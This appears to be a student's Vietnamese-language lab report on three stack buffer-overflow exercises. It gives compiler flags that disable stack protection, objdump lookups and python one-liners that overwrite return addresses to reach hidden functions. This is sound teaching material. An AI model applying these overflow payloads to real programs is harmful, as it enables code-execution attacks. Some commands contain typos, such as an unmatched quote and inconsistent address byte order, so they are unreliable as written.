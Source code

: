 # 22110054 Nguyễn Hữu Nghi
***
# Buffer-overflow Attack

## Bof1
Stack-frame

![image](https://github.com/user-attachments/assets/47c6fffc-c76a-49fe-a1f3-91fc6b3f2c34)
<br></br>
<br>
Biên dịch bằng chương trình: 
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `

Sử dụng lệnh `objdump -d bof1.out | grep secretFunc` để xác định vị trí hàm secretFunc và các đoạn mã liên quan tới hàm này

Sau đó, sử dụng lệnh `echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')") | ./bof1.out` để chèn 204 bytes kí tự bất kì ( ở đây là ký tự 'a') để thực hiện tấn công.
</br>
<br>Kết quả sẽ là: Congratulation!</br>
![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20093458.png)

## Bof2
Stack-frame


![image](https://github.com/user-attachments/assets/481d51a2-7068-4d38-9874-5f43c3fc4def)
<br>
Biên dịch chương trình bằng gcc: <br>
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 `
</br>
Chạy thử chương trình bằng lệnh `echo $(python -c "print('a'*41')") | ./bof2.out` để dò được địa chỉ `0xdeadbeef`
  <br>Kết quả sẽ là: You are on the right way!</br>
Sau đó chạy tiếp chương trình bằng lệnh `echo $(python -c "print('a'*40')") | ./bof2.out`
  <br>Kết quả hiển thị sẽ là: Yeah! You Win!</br>
</br>

![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20093233.png)


## Bof3
Stack-frame

![image](https://github.com/user-attachments/assets/5ba00958-3f82-4eb7-9993-bef36dfc1a66)

<br>Biên dịch chương trình dùng lệnh:`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 ` </br>
<br>Sử dụng lệnh: `objdump -d bof3.out | grep shell` để xác định hàm shell</br>
<br>Sau đó thực hiện lệnh:`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out` để chèn 128 byte kí tự 'a' vào chương trình</br>
<br>Kết quả sẽ là: You make it! The shell() function is executed</br>
<br></br>
![alt](https://github.com/nghi113212/Security-lab-submit/blob/main/imgs/Screenshot%202024-09-09%20092857.png)



